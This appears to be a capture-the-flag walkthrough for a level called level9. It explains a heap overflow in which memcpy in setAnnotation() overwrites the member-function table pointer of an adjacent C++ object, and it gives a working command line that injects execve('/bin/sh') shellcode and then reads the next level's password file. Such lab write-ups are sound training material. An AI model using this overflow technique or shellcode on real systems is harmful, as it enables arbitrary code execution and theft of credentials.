 # Walkthrough

## Disassembling the executable 

see source.cpp


## Analysis

In the main, they allocate two objects from the N class. They copy av[1] into the first object's buffer and then call a member function.

Since, the two objects are adjacent in memory we exploit the memcpy called in setAnnotation() on the first object to rewrite the address of the array of member functions to the second object.

In the N class, the first function is the operator+() which is nice because that function is called later in the main().


We hypothesized that when the operator+ is called, it will in fact call our payload which jump into our shellcode.

 
```
./level9 $(python -c "print('\x10\xa0\x04\x08' + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * 80 + '\x0c\xa0\x04\x08\x00')")
$ cat /home/user/bonus0/.pass
```
